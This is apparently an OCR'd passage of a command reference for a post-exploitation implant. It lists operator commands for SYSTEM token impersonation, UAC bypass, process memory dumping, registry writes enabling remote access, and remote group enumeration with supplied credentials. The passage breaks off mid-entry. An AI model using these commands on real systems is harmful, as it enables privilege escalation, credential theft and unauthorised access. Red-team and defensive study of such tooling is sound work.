 ```Interact```
Impersonate system user - requires admin rights:

```GetSystem```

Impersonate system user - Impersonate the token of a specified process, requires pid - command requires admin rights:

```Impersonate 2918```

Bypass UAC - requires binary | command | path to binary - requires admin rights:

```BypassUAC cmd.exe ipconfig C:\Windows\System32\```

```BypassUAC cmd.exe "" C:\Windows\System32\```

Ends the impersonation of any token, reverts back to initial token associated with current process:

```RevertToSelf```

Retrieve current working directory:

```CurrentDirectory```

Retrieve current directory listing:

```DirectoryListing```

Changes the current directory by appending a specified string to the current working directory:

```ChangeDirectory SomeFolder```

Retrieve hostname:

```Hostname```

Retrieve list of running processes:

```ProcessList```

Creates a minidump of the memory of a running process, requires PID | output location | output name - requires admin:

```ProcDump 2198 C:\Users\Username\Desktop memorydump.dmp```

Retrieve registry path value, requires full path argument:

```ReadRegistry HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\COM3\BuildNumber```

Write to registry, requires full path argument and value argument:

```WriteRegistry HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\COM3\RemoteAccessEnabled 1```

Retrieve users of local group remotely, requires computername | groupname | username | password:

```NetLocalGroupMembers computerName Administrators domain\username P@55w0rd!```

```NetLocalGroupMembers 192.168.1.20 Administrators .\username P@55w0rd!```

Retrieve local groups remotely, requires computername | username | password:

```NetLocalGroups computerName domain\username P@55w0rd!```

```NetLocalGroups 192.168.1.20 .\username P@55w0rd!```

Retrieve current logged on users remotely, requires computername | username | password:

```
